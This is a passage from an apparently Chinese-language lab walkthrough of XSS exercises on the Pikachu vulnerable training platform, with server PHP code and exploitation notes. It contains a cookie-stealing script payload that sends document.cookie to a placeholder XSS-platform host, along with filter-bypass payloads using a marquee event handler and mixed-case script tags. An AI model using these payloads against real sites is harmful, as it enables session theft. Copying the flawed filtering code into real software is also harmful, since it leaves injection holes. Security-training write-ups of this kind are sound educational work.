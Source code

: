 到 pikachu 平台下管理工具，进去初始化平台

盗 cookie payload `<script>document.location = 'http://<xss平台地址>/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>`

![image](../../../assets/img/安全/实验/pikachu/12.png)

### xss 之过滤
**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['message'] != null){
    //这里会使用正则对<script进行替换为空,也就是过滤掉
    $message=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/', '', $_GET['message']);
    if($message == 'yes'){
        $html.="<p>那就去人民广场一个人坐一会儿吧!</p>";
    }else{
        $html.="<p>别说这些'{$message}'的话,不要怕,就是干!</p>";
    }

}
```

这里注释写的很清楚了，不多说了

**漏洞利用**

过滤了 `<script` ，还有很多的标签可以用,再说还有很多绕过方法

- payload: `<marquee loop="99" onfinish=alert(1)>hack the planet</marquee>`

- payload: `<ScrIpT>alert('老铁，欧里给!')</sCriPt>`

### xss 之 htmlspecialchars
**服务器端核心代码**
```php
if(isset($_GET['submit'])){
    if(empty($_GET['message'])){
        $html.="<p class='notice'>输入点啥吧！</p>";
    }else {
        //使用了htmlspecialchars进行处理,是不是就没问题了呢,htmlspecialchars默认不对'处理
        $message=htmlspecialchars($_GET['message']);
        $html1.="<p class='notice'>你的输入已经被记录:</p>";
        //输入的内容被处理后输出到了input标签的value属性里面,试试:' onclick='alert(111)'
//        $html2.="<input class='input' type='text' name='inputvalue' readonly='readonly' value='{$message}' style='margin-left:120px;display:block;background-color:#c0c0c0;border-style:none;'/>";
        $html2.="<a href='{$message}'>{$message}</a>";
    }
}
```
